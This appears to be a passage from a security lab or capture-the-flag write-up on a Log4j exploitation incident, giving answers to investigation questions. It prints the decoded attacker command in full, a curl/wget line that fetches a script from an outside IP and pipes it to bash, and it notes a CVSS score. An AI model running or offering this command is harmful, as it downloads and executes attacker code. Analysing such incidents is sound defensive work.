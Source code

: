 
Investigate the log/alarm files.  

Decode the encoded command.

What is the attacker's command?

```c
(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash
```

![](/assets/img/Pasted image 20240304120733.png)



What is the CVSS v2 score of the Log4j vulnerability? `9.3`

![](/assets/img/Pasted image 20240304120952.png)


















